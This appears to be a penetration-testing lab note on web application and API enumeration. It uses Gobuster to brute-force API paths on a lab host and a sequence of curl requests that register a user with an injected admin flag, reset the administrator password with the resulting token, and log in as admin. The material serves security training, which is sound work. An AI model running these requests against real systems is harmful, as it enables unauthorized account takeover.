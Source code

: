 # Web-app Enumeration

Debugging Page Content -> Inspect Element \
\
Inspecting HTTP Response Headers and Sitemaps

Sitemaps -> Web applications can include sitemap files to help search engine bots crawl and index their sites.

```
curl https://www.google.com/robots.txt
```

### <mark style="color:yellow;">Enumerating and Abusing APIs</mark>

_Application Programming Interfaces_ (API)\
API Path Naming Convention -> /api\_name/v1

Enumerating API with Gobuster

Gobuster pattern:

```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

<pre><code><strong>gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
</strong></code></pre>

<mark style="color:yellow;">Inspecting API with curl</mark>&#x20;

```
curl -i http://192.168.50.16:5002/users/v1
```

Bruteforce attack with Gobuster on a specific user

```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```

craft our request by first passing the \[admin] username and dummy password as JSON data via the **-d** parameter. We'll also specify "json" as the "Content-Type" by specifying a new header with **-H**.

```
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

Let's try registering a new user with the following syntax by adding a JSON data structure that specifies the desired username and password:

```
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
```

Registering as admin user

```
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
```

Logging in as admin user&#x20;

```
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

Attempting to Change the Administrator Password via a POST request

```
curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'
```

Attempting to Change the Administrator Password via a PUT request

```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```

Successfully logging in as the admin account

```
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

